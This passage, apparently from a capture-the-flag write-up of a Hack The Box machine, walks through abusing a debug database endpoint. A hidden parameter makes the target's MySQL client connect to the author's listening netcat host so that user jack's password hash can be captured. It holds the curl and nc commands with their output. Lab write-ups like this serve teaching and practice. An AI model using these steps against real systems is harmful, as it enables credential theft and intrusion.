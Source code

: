     ## API START
                                                                        
    # NOT FOR PROD USE, USE FOR HEALTHCHECK ON DB
    ...[snip]...



It matches what I already have. I looked for other files like a `.env`,
but came up empty.

### Get jack's Password

#### Get MySQL Hash

The `/api/dbtest` function will try to connect to the MySQL host using
these creds:



    www-data@wordpress:/var/www.md$ curl personal.toby.htb/api/dbtest
    mysql: [Warning] Using a password on the command line interface can be insecure.
    ERROR 1045 (28000): Access denied for user 'jack'@'172.69.0.104' (using password: YES)



It fails, but I do learn the username is jack.

I noted above that the dbtest function should connect somewhere else if
I give it a valid IP. I'll try:



    www-data@wordpress:/var/www.md$ curl personal.toby.htb/api/dbtest?secretdbtest_09ef=10.10.14.6



This hangs, but at `nc` on my host listening on 3306 (MySQL), there's a
connection:



    oxdf@hacky$ nc -lnvp 3306
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::3306
    Ncat: Listening on 0.0.0.0:3306
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:44630.



I had a similar challenge in
[Kryptos](/htb-kryptos.md#auth-bypass) a long time ago, and
I showed how I can use Wireshark to capture the hash and salts. I'll
follow the same procedure. On Parrot, I had to install it with
`sudo apt install mariadb-server`. Then I'll start it with
`sudo service mysql start`. I can confirm it's listening on 3306:



    oxdf@hacky$ netstat -tnlp
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -   ...[snip]...
